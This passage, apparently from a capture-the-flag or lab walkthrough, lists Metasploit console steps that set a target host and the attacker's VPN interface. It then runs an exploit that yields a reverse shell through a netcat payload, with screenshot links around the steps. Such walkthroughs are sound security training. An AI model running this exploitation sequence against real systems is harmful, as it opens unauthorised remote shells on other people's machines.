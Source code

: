 	![Screenshot from 2021-04-17 13-52-33.png](../_resources/c640a8652a094e688c9ec1370f2020d4.png)
	
	3. `set RHOST 10.10.10.3`
	4. `set LHOST tun0` (OVPN Interface)
	5. `exploit`

Now we have the reverse shell using the `cmd/unix/reverse_netcat` payload.



![Screenshot from 2021-04-17 14-30-52.png](../_resources/df755de6edfa43cb82154390c15df0c1.png)
